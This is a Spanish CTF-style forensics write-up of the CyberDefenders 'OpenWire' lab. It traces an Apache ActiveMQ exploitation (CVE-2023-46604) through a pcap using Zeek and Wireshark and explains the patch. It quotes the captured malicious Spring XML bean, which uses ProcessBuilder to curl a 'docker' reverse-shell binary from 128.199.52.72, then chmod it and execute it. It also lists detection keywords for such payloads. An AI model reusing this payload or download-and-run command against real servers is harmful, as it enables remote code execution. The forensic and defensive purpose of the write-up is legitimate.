

# **Cyberdefenders - OpenWire**

Vamos a estar analizando un fichero .pcap en este laboratorio, estaremos usando una herramietna diferente a wireshark que es con la que hemos venido trabajando. 

Solo se nos proporciona un fichero .pcap que capturó tráfico de un servidor expuesto a internet, así que vamos a instalar zeek para iniciar. 

La instalación es bastante sencilla: 

```bash
┌──(kali㉿kali)-[~/blue-labs]
└─$ docker pull zeek/zeek:latest
```
> $(pwd) es una forma de obtener el directorio actual donde estás parado en tu terminal (funciona en Linux/macOS). En Windows con PowerShell sería diferente, como ${PWD} o una ruta absoluta.
> :/mnt significa que el directorio actual de tu máquina se montará dentro del contenedor en la ruta /mnt.

También existe esta [guía bastante útil](https://github.com/corelight/zeek-cheatsheets/tree/master) para recordar algunos de los tantos comando y funcionalidades de zeeK

Con esto aclarado, pasemos al análisis: 

---
<h3 style="color: #0d6efd;">Q1. Al identificar la IP C2, podemos bloquear el tráfico hacia y desde esta IP, lo que ayuda a contener la brecha y evitar una mayor exfiltración de datos o ejecución de comandos. Puede proporcionar la IP del servidor C2 que se comunicó con nuestro servidor?</h3>

Para esto, podemos empezar el escaneo usando zeek, primero iniciamos una shell y posteriormente el reporte que genera zeek.
```bash
# bash
root@9f687bc1adcb:/mnt# zeek -r ow.pcap
```
> -r le dice a Zeek que analice un archivo .pcap (captura de red).

Nos genera varios ficheros: 
```bash
root@9f687bc1adcb:/mnt# ls
analyzer.log  conn.log  files.log  http.log  ow.pcap  packet_filter.log  weird.log
```
Si analizamos el fichero conn.log podremos ver una conexión con lo que parece ser bastante información compartida. 


Las que apuntan al puerto 8000 son muy sospechosas de ser comunicaciones C2 (no es un puerto estándar de HTTP/HTTPS, sino más bien de un servicio personalizado).
```bash
134.209.197.3 → 146.190.21.92 (port 8000)
```
aparece repetido en dos flujos, con cantidades de bytes intercambiados (orig_bytes, resp_bytes) y un conn_state de tipo OTH.

En Zeek, el campo `conn_state` resume en una abreviatura el estado final de la conexión. Algunos valores comunes son:
* `SF` (Successful Finish): conexión establecida y terminada “correctamente” (FIN/ACK).
* `REJ` (Rejected): intento de conexión rechazado (por ejemplo, RST al abrir).
* `RSTO` / `RSTR`: conexión terminada con RST (activamente cerrado por origen o destino).
* **`OTH`** (Other): conexiones que no encajan en ninguno de los anteriores — por ejemplo, sesiones sin un cierre TCP estándar (ni FIN ni RST), o protocolos no TCP reconocidos completamente. Básicamente “otros casos” o cerrados de forma atípica.


Podemos ir a revisar esta ip en wireshark y vemos que hay una conexión usando el protocolo  `openwire`. Podemos ver el contenido del flujo tpc de esta conexión: 


Parece que se carga al cliente un fichero xml.
---
<h3 style="color: #0d6efd;">Q2. Los puntos de entrada iniciales son fundamentales para rastrear el vector de ataque. ¿Cuál es el número de puerto del servicio explotado por el adversario?</h3>

Bien, ya conocemos la ip del C2, ahora es momento de explicar qué es el protocolo `OpenWire`. 

En Wireshark, el protocolo **OpenWire** es el protocolo binario nativo que emplea **Apache ActiveMQ** (un broker de mensajería compatible con JMS) para intercambiar mensajes entre clientes y el servidor. A continuación, los aspectos clave:

1. **¿Para qué sirve?**

   * Facilita la comunicación cliente–broker en entornos basados en **JMS** (Java Message Service).
   * Se usa principalmente para publicar y consumir mensajes en colas o topics gestionados por ActiveMQ.

2. **Puertos habituales**

   * Por defecto, ActiveMQ “escucha” este protocolo en el puerto **TCP 61616** (configurable en `activemq.xml`).

3. **Formato básico de un frame OpenWire**
   Cada mensaje (o comando de control) se encapsula en un “frame” con esta estructura general:

   ```
   ┌─────────────────────┬─────────────────┬─────────────┬───────────────┐
   │   Long (4 bytes):   │  Magic String   │  Long (4B): │   Payload…    │
   │  tamaño total (N)   │   “OPENWIRE”    │ comando ID  │               │
   └─────────────────────┴─────────────────┴─────────────┴───────────────┘
   ```

   * **tamaño total** (incluye cabeceras y payload)
   * **Magic String** confirma que es OpenWire
   * **comando ID** identifica el tipo de operación (conectar, producir mensaje, suscribirse, etc.)
   * **payload** los datos concretos del mensaje o petición.

4. **Principales comandos:**

   * **WireFormatInfo**: negociación inicial de versión y opciones de serialización.
   * **ConnectionInfo**: apertura de sesión entre cliente y broker.
   * **SessionInfo** / **ProducerInfo** / **ConsumerInfo**: gestión de sesiones productoras/consumidoras.
   * **MessageDispatch**: entrega real del mensaje al consumidor.
   * **MessageAck**: acuse de recibo (ACK/NACK) para controlar confirmaciones.

**ActiveMQ y JMS están diseñados para el intercambio confiable y escalable de mensajes entre aplicaciones, no para chat de persona a persona. En entornos empresariales o sistemas distribuidos, esta mensajería es fundamental para construir arquitecturas robustas y desacopladas.**

Algunos Ejemplos: 
  1. Integración de aplicaciones: permite que distintos componentes de un sistema (o sistemas heterogéneos) intercambien datos de forma asíncrona, sin depender de la disponibilidad simultánea de todos ellos
     Ejemplo: un módulo de facturación publica un mensaje “orden recibida” en una cola. Otro servicio (p.e. envío de email, generación de factura PDF o inventario) consume ese mensaje cuando esté listo, sin bloquear al sistema de facturación.

  2. Desacoplamiento: el productor de mensajes (quien envía) ignora quién o cuántos consumidores hay. Basta con “poner” el mensaje en la cola.
     Escalabilidad horizontal: puedes añadir más instancias de consumidores para procesar mensajes en paralelo y repartir la carga.
     Ejemplo: en un pico de tráfico, pones más nodos que lean de la misma cola y procesen pedidos o alertas simultáneamente.

  3, Persistencia y transacciones: ActiveMQ puede almacenar mensajes en disco hasta que el consumidor confirme su correcta recepción (ACK). Si un nodo cae, el mensaje no se pierde.
     Calidad de servicio (QoS): configuraciones de “exactly once”, “at least once” o “at most once” garantizan distintos niveles de duplicados vs. pérdida de mensajes según la criticidad.
     Ejemplo: en un sistema bancario, cada transferencia se publica como mensaje persistente; solamente cuando el mensaje es procesado y confirmado, se marca como completada.

Algunos usos: 
- Procesamiento por lotes: sistemas que reciben picos de datos (logs, sensores IoT) y los encolan para procesarlos en segundo plano.
- Microservicios: servicios independientes que colaboran a través de mensajes en lugar de llamadas sincrónicas REST, mejorando la resiliencia.
- Flujos de trabajo (workflows): orquestación de tareas donde cada paso publica un mensaje para desencadenar el siguiente.
- Integración con sistemas legados: puente entre tecnologías antiguas (ERP, mainframes) y nuevas aplicaciones.

Bien, con esto dicho ya podemos contestar la respuesta, aplicamos un filtro en wireshark por la IP del C2: 


Vemos el protocolo de openwire, en una comunicación entre el C2 y el servidor expuesto a internet, el puerto es el que usa por defecto, el 61616. 

---
<h3 style="color: #0d6efd;">Q3. Siguiendo con la pregunta anterior, ¿cuál es el nombre del servicio considerado vulnerable?</h3>

En la pregunta anterior explicamos que es **OpenWire** es el protocolo nativo que emplea **Apache ActiveMQ**. 

---
<h3 style="color: #0d6efd;">Q4. La infraestructura del atacante suele incluir múltiples componentes. ¿Cuál es la IP del segundo servidor C2?</h3>

Para esto primero apliqué el siguiente filtro para ver con qué otras direcciones ip se conecta el servidor expuesto a internet. 

Esto podemos verlo en el análisis hecho con zeek, pero podemos verlo de la siguiente forma:
```bash
┌──(kali㉿kali)-[~/blue-labs/openwire/temp_extract_dir]
└─$ tshark -r ow.pcap -Y "ip.src== 134.209.197.3" | awk '{print $5":"$6}' | sort | uniq -c
      5 128.199.52.72:80
   1947 146.190.21.92:443
      5 146.190.21.92:47284
     13 146.190.21.92:8000
      3 84.239.49.16:49877
      3 84.239.49.16:50230
```

Así que inspeccionamos la primera ip, que se conecta por el puerto 80, y podemos ver lo siguiente: 


Parece que se descarga un fichero un fichero, en el content-type es del tipo `octect-stream`, que es utilizado para indicar que el contenido es un archivo binario arbitrario. Este tipo MIME se utiliza normalmente cuando el tipo de archivo es desconocido o no se puede determinarutilizado para indicar que el contenido es un archivo binario arbitrario. Este tipo MIME se utiliza normalmente cuando el tipo de archivo es desconocido o no se puede determinar. Esto ya nos da que sospechar. 

---
<h3 style="color: #0d6efd;">Q5. Los atacantes suelen dejar rastros en el disco. ¿Cuál es el nombre del ejecutable de shell inversa que se ha soltado en el servidor?</h3>

Ya vimos en la captura de la imagen anterior, un fichero llamado `docker`.

---
<h3 style="color: #0d6efd;"></h3>

Para esto volvemos al primero fichero que vimos, el XML, y podemos ver lo siguiente: 


Este fragmento es un **payload XML maliciosa** utilizado para explotar una vulnerabilidad específica en aplicaciones Java basadas en **Spring Framework**, conocida como **Spring XML Remote Code Execution (RCE)**.

Es un archivo XML con configuración de Spring Beans, una parte del framework Spring usado en aplicaciones Java para definir objetos (beans) y su ciclo de vida.

En este caso, el XML define un bean malicioso que se usa para ejecutar comandos arbitrarios en el sistema de la víctima.

```xml
<bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
```

* Se define un bean con ID `pb`.
* Se utiliza la clase estándar de Java `java.lang.ProcessBuilder`, la cual **permite ejecutar comandos del sistema operativo**.
* `init-method="start"` indica que el método `start()` del objeto `ProcessBuilder` se ejecutará inmediatamente después de la creación del bean.

```xml
<value>bash</value>
<value>-c</value>
<value>curl -s -o /tmp/docker http://128.199.52.72/docker; chmod +x /tmp/docker; ./tmp/docker</value>
```

Este bloque representa el comando que se ejecutará:

```bash
bash -c "curl -s -o /tmp/docker http://128.199.52.72/docker; chmod +x /tmp/docker; ./tmp/docker"
```

Este comando hace lo siguiente:

1. Descarga un archivo llamado `docker` desde una IP externa (`128.199.52.72`) al directorio `/tmp`.
2. Le otorga permisos de ejecución.
3. Lo ejecuta.

> Es una forma clásica de **descargar y ejecutar un malware o backdoor**.

**Este ataque se aprovecha de la funcionalidad de deserialización de Spring cuando está mal configurada y **permite cargar directamente archivos XML que definen beans**, incluso si esos beans llaman a clases peligrosas como `ProcessBuilder`.**

Es un caso de:

### Spring XML External Entities (XXE) / RCE

* Similar a una **deserialización insegura**.
* Ocurre cuando se permite al usuario subir o hacer `GET` a un archivo XML que luego es interpretado por Spring como una definición de objetos sin validación ni restricción.

### Mitigación (a nivel de desarrollo y red)


1. **Revisar los servicios expuestos:** Este tráfico va al puerto `8000` en la IP `146.190.21.92`.
2. **Detectar patrones comunes:**
   * Presencia de `ProcessBuilder` en XML.
   * Payloads que invocan `bash`, `curl`, `wget`, `chmod`, `nc`, etc.
3. **Reglas en SIEM/IDS:** Crear reglas para detectar XML con tags `<bean>` usando clases críticas (`java.lang.Runtime`, `java.lang.ProcessBuilder`).

---
<h3 style="color: #0d6efd;"></h3>

Para esto buscamos en internet.



---
<h3 style="color: #0d6efd;"></h3>


En el **parche** que corrige la vulnerabilidad **CVE-2023-46604** se añadió un **paso de validación** en la clase `BaseDataStreamMarshaller`, concretamente dentro del método:

```java
private Throwable createThrowable(String className, String message)
```

Justo después de cargar la clase con `Class.forName(…)`, el código ahora invoca:

```java
OpenWireUtil.validateIsThrowable(clazz);
```

Este método comprueba que la clase referida por `className` **herede de `java.lang.Throwable`**, garantizando así que solo se puedan instanciar excepciones o errores legítimos y no cualquier clase arbitraria presente en el classpath. Si la validación falla, se lanza una `IllegalArgumentException` y se evita la creación de objetos no deseados ([Listas de Debian][1]).


Antes de esta línea, un atacante podía enviar malicious payloads en el campo “Throwable type” de un comando **ExceptionResponse** en el protocolo OpenWire, provocando que el broker o cliente de ActiveMQ ejecutara:

```java
Constructor ctor = clazz.getConstructor(String.class);
ctor.newInstance(maliciousUrl);
```

Y, por ejemplo, cargara una configuración Spring maliciosa que desembocara en ejecución de código arbitrario. Con la llamada a `validateIsThrowable()`, si el atacante intenta instanciar algo que no sea una excepción (`Throwable`), el marshaller rechaza la operación y evita la explotación ([issues.apache.org][2]).

